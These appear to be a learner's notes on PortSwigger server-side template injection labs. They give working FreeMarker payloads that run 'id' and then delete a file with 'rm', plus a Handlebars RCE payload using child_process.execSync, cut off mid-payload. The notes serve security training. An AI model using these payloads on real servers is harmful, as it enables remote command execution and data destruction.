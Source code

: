 from:
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#freemarker---code-execution

1. <#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}
2. [#assign ex = 'freemarker.template.utility.Execute'?new()]${ ex('id')}
3. ${"freemarker.template.utility.Execute"?new()("id")}

payloads 1 and 3 works and provide information. payload2 errors 

``
try: <#assign ex = "freemarker.template.utility.Execute"?new()>${ex('id')}
get: uid=12002(carlos) gid=12002(carlos) groups=12002(carlos) 
``
**final payload:**
```
<#assign ex = "freemarker.template.utility.Execute"?new()>${ex('rm /home/carlos/morale.txt')}
```

# success!


# [4.***Lab: Server-side template injection in an unknown language with a documented exploit***](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-in-an-unknown-language-with-a-documented-exploit)

To solve the lab, identify the template engine and find a documented exploit online that you can use to execute arbitrary code, then delete the morale.txt file from Carlos's home directory


explore site observe product 1 is out of stock and triggers a GET response:
GET /?message=Unfortunately%20this%20product%20is%20out%20of%20stock 

1. study injection point

**request**:
    GET /?message=${{<%[%'"}}%\. HTTP/1.1
response:
    <p class=is-warning>/usr/local/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/parser.js:267
    throw new Error(str);

we are dealing with handlebars template




2. search for handlebars payload

*(from: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#handlebars)*

**RCE payload**:
```
    {{#with "s" as |string|}}
    {{#with "e"}}
        {{#with split as |conslist|}}
        {{this.pop}}
        {{this.push (lookup string.sub "constructor")}}
        {{this.pop}}
        {{#with string.split as |codelist|}}
            {{this.pop}}
            {{this.push "return require('child_process').execSync('ls -la');"}}
            {{this.pop}}
            {{#each conslist}}
            {{#with (string.sub.apply 0 codelist)}}
                {{this}}
```